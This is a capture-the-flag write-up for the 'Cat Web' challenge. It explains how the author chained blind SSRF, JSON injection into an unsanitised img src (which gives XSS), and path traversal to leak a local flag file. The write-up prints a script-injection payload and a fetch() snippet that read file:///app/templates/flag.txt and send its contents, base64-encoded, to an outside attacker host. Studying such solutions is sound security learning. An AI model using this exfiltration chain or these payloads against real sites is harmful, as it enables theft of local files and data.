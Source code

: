 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

 > Had A look, Thought of Exploiting XSS in headless client for local file exfiltration through Blind SSRF in report feature but thought of CORS blocking and did not go further to explore. This should have given clear hint to find XSS somehow :/ .  But did not try further, missed subtle hints around the CAT pic loading feature, good point to note, Good CTF don't give some features just for the sake of story.

#### Solutions:

The challenge was to exlpoit Blind SSRF + XSS to leak `local` flag file.

Steps to solve the challenge:

1. Detect that Blind SSRF is present in /report
2. Upon view source of main page, Find that the inline script takes query parameter `p`  (ctf.com/?`p`) and does a request to /cat?kind=p, If this is succuesful, it return a content ` array` of names of `Files` of cats. If it does not find that type of cat, It errors out with a content error `string`.
3. It checks if the status paramter returned in JSON response is "ok" and if yes, Without any sanitization, It puts the content arrays elements in img src.
4. If the status in JSON response is not ok, it does nothing.
5. Upon fuzzing, /cats?kind=FUZZ, It is evident that if the cat type is present, It gives file name, If not then it return our string in response in JSON, Json injection Possible here.
6. Using JSON injection `", "content": ["\"><script src='https://captainfreak.com/xss.js'></script>"], "status": "ok", "a": "`

We can manipulate frontend check of "status" value being "ok" as JSON parse in JS only considers last occurence of element if there are multiple. Now we have complete XSS on /index.html 

7. Further fuzzing and observation reveals that this cat types are indeed a directory names and the api just lists file inside the directory.
8. Path traversal to `/cats?kind=../templates` gives out that flag is at `/app/templates/flag.txt`.
9. Now these are the bugs, We some how need chain them to exfiltrate this flag file.
10. We can host evil js file
```
fetch('file:///app/templates/flag.txt').then(response => response.text()).then((response) => {window.location = 'https://captainfreak.com/flag?a=' + (btoa(response) || 'No Value')});

```

and feed it through BLIND SSRF such as 

http://catweb.zajebistyc.tf/?+urlencode(","content": ["\"><script src='https://captainfreak.com/xss.js'></script>"], "status": "ok", "a": ")

But our JS wont work as CORS would block our evil JS's request to file:// as the origins dont match at all.

But file://app/template.index.html === http://cat.com/ in the context of Blind SSRF victim.

Hence Final Payload: 

```
file:///app/templates/index.html?urlencode(","content": ["\"><script src='https://captainfreak.com/xss.js'></script>"], "status": "ok", "a": ")
```


References:
1. https://d1r3wolf.blogspot.com/2020/03/confidence-ctf-2020-cat-web-challenge.html

